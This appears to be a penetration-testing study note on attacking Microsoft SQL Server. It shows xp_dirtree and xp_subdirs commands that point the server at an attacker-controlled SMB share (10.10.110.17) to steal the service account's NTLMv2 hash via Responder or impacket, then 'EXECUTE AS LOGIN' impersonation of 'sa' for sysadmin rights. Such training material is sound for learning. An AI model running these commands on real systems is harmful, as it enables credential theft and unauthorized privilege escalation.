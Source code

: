 ```mysql
- We can also **==steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories==** under a specified parent directory from the file system.
- When we use one of these stored procedures and point it to our SMB server, the **directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server**

- XP_DIRTREE Hash Stealing:
	- `EXEC master..xp_dirtree '\\10.10.110.17\share\'`
	- `GO`

- XP_SUBDIRS Hash Stealing:
	- `EXEC master..xp_subdirs '\\10.10.110.17\share\'`
	- `GO`

- If the service account has access to our server, we will obtain its hash. **==We can then attempt to crack the hash or relay it to another host.==**


## XP_SUBDIRS Hash Stealing with Responder
- `sudo responder -I tun0`

## XP_SUBDIRS Hash Stealing with impacket
- `sudo impacket-smbserver share ./ -smb2support`

# ==Impersonate Existing Users with MSSQL==
---
- SQL Server has a **special permission, named `IMPERSONATE`**, that **==allows the executing user to take on the permissions of another user==** or login until the context is reset or the session ends.
- First, **we need to identify users that we can impersonate**. 
- **Sysadmins can impersonate anyone by default**, But for **==non-administrator users, privileges must be explicitly assigned==**:
  
	- `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
	- `GO`
	- ![[Pasted image 20250710080638.png]]

- To get an idea of privilege escalation possibilities, let's verify if our current user has the sysadmin role:
	- `SELECT SYSTEM_USER`
	- `SELECT IS_SRVROLEMEMBER('sysadmin')`
	- `GO`
	- ![[Pasted image 20250710080706.png]]
- As the returned value `0` indicates, **we do not have the sysadmin role**, but **we can impersonate the `sa` user.**
- To impersonate a user, we can use the Transact-SQL statement `EXECUTE AS LOGIN` and set it to the user we want to impersonate.
- **Impersonating the SA User**:
	- `EXECUTE AS LOGIN = 'sa'`
	- `SELECT SYSTEM_USER`
	- `SELECT IS_SRVROLEMEMBER('sysadmin')`
	- `GO`
	- ![[Pasted image 20250710080825.png]]

- **Note:** It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.
- We can now **==execute any command as a sysadmin as the returned value `1`==** indicates.
- **To** revert the operation and return to our previous user, **we can use the Transact-SQL statement `REVERT`.**
```